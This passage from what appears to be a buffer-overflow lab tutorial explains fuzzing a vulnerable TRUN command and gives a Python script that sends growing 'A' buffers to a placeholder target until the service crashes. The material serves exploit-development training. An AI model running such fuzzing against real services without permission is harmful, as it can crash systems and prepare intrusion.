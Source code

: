 Now that we know what the vulnerable function/command is, we can now 'fuzz' it in order to find the approximate memory location to where the program crashes.
In our example, the TRUN command/function was found to be vulnerable and thus we want to probe it with a set of simple buffers. 
You might need to modify the script with execution rights:

```python
#!/usr/bin/python3
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('TARGET-IP',TARGET-PORT))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

Once the program crashes, Control+C and check the bytes section.
